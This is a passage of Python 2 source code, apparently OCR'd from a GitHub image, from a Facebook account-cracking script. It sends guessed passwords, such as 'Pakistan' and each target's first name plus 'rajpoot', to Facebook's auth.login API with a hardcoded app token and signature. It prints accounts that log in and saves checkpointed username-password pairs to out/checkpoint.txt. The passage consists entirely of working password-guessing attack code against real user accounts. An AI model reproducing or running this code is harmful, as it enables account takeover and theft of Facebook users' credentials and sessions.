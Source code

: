			else:

				if 'www.facebook.com' in q["error_msg"]:

					print '\x1b[1;95mCheckpoint\x1b[1;97m-\x1b[1;94m✧\x1b[1;97m-' + user + '-\x1b[1;94m✧\x1b[1;97m-' + pass1

					cek = open("out/checkpoint.txt", "a")

					cek.write(user+"|"+pass1+"\n")

					cek.close()

					cekpoint.append(user+pass1)

				else:

					pass2 = 'Pakistan'

					data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass2)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")

					q = json.load(data)

					if 'access_token' in q:

						print '\x1b[1;92mSuccessful\x1b[1;97m-\x1b[1;94m✧\x1b[1;97m-' + user + '-\x1b[1;94m✧\x1b[1;97m-' + pass2

						oks.append(user+pass2)

					else:

						if 'www.facebook.com' in q["error_msg"]:

							print '\x1b[1;95mCheckpoint\x1b[1;97m-\x1b[1;94m✧\x1b[1;97m-' + user + '-\x1b[1;94m✧\x1b[1;97m-' + pass2

							cek = open("out/checkpoint.txt", "a")

							cek.write(user+"|"+pass2+"\n")

							cek.close()

							cekpoint.append(user+pass2)

						else:

							pass3 = a['first_name'] + 'rajpoot'

							data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass3)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")

							q = json.load(data)

							if 'access_token' in q:

								print '\x1b[1;92mSuccessful\x1b[1;97m-\x1b[1;94m✧\x1b[1;97m-' + user + '-\x1b[1;94m✧\x1b[1;97m-' + pass3

								oks.append(user+pass3)

